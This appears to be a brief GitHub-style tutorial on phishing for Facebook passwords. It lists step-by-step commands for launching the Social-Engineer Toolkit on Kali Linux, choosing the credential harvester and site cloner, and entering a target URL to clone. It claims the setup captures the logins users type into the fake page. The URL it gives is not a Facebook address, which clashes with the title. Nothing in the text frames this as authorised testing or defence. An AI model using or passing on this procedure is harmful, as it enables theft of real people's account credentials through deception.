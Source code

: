 # Phishing for Capturing Facebook Passwords

### Tools Required

- Kali Linux
- setoolkit

## Setting Up Phishing on Kali Linux

1. Gain root access:

```bash
sudo su
```

2. Launch the Social-Engineer Toolkit (SET):

```bash
setoolkit
```

3. Select the attack type:

```bash
Social-Engineering Attacks
```

4. Choose the attack vector:

```bash
Web Site Attack Vectors
```
5. Select the attack method:

```bash

Credential Harvester Attack Method
```
6. Choose the Site Cloner method:
```bash
Site Cloner
```
7. Find your machine’s IP address:
```bash
ifconfig
```
8. Enter the target website URL to clone:
```bash
http://www.mirtesnet.com.br
```
## Results

![Fishing Result](fishing.jpeg)

Once configured, the tool will capture credentials entered by users attempting to log in via the cloned Facebook page.
